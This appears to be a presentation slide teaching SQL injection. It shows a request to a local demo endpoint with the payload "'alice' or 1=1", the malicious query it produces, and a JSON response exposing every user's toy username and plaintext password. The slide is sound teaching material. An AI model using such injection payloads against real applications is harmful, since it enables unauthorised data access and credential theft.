

# Injecting 1=1
Injecting 1=1
http://localhost:8080/findUserByUsername
												?username='alice' or 1=1
Generates the following malicious SQL
select * from users where username = 'alice' or 1=1

Exposing unintended sensitive data
[	{"id": 1,"username": "alice","password": "alice"},
{"id": 2,"username": "bob","password": "bob"},
{"id": 3,"username": "charlie","password": "charlie"},
{"id": 4,"username": "dan","password": "dan"}	]